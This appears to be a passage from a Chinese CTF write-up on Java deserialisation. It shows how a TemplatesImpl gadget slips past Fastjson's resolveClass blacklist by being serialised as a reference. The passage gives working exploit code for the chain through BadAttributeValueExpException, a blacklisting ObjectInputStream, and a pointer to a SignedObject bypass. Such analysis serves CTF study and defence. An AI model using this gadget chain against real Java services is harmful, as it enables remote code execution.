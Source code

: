 因此从`FJ
1.2.49`开始，`JSONArray`和`JSONObject`开始重写了`resolveClass`，过滤了诸如`TemplatesImpl`的危险类。而`ezbean`那道题使用了一个不安全的`ObjectInputStream`进行反序列化。

这也就导致了选手通过引用的数据类型从而不执行`resolveClass`以绕过其对危险类的检查，导致了非预期。

 **exp**

    
    
    List<Object\> list \= new ArrayList<>();  
      
            TemplatesImpl templates \= GadgetUtils.createTemplatesImpl("calc");  
      
            list.add(templates);          //第一次添加为了使得templates变成引用类型从而绕过JsonArray的resolveClass黑名单检测  
      
            JSONArray jsonArray \= new JSONArray();  
            jsonArray.add(templates);           //此时在hash表中查到了映射，因此接下来以引用形式输出  
      
            BadAttributeValueExpException bd \= new BadAttributeValueExpException(null);  
            ReflectionUtils.setFieldValue(bd,"val",jsonArray);  
            list.add(bd);  
            //字节  
            byte\[\] payload \= SerializerUtils.serialize(list);  
      
            ObjectInputStream ois \= new MyInputStream(new ByteArrayInputStream(payload));  
            ois.readObject();  
    

### 问题

似乎这样的方式只能在目标环境使用了一个不安全的`ObjectInputStream`的场景下应用。

因为`templates`是以引用的形式来绕过`FJ`的`resolveClass`方法的黑名单检查，因此在（见`exp`第三行）必须把`templates`添加到`list`中，所以如果重写了`ObjectInputStream`过滤`templates`，这样的方法就失效了。

    
    
    public class MyInputStream extends ObjectInputStream {  
        private final List<Object\> BLACKLIST \= Arrays.asList("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl", "com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter", "com.sun.syndication.feed.impl.ObjectBean", "import com.sun.syndication.feed.impl.ToStringBean");  
      
        public MyInputStream(InputStream inputStream) throws IOException {  
            super(inputStream);  
        }  
      
        protected Class<?> resolveClass(ObjectStreamClass cls) throws ClassNotFoundException, IOException {  
            if (this.BLACKLIST.contains(cls.getName())) {  
                throw new InvalidClassException("The class " + cls.getName() + " is on the blacklist");  
            } else {  
                return super.resolveClass(cls);  
            }  
        }  
    }  
    

解决方案也很简单，就是通过二次反序列化绕过。

### SignedObject
